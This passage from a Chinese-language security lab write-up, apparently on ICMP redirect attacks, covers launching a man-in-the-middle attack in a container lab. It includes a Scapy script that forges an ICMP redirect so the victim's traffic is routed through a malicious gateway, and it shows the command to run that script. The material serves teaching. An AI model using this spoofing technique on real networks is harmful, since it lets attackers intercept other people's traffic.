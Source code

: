 此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![image-20220825154620800](/src/assets/img/security/icmp6.png)

可以看到，也失败了。

# Task 2: Launching the MITM Attack

先把所有东西改回原样。

关闭转发：

```dockerfile
- net.ipv4.ip_forward=0
```

保持 victim ping `192.168.60.5：`

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

编写 `icmp.py：`

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```
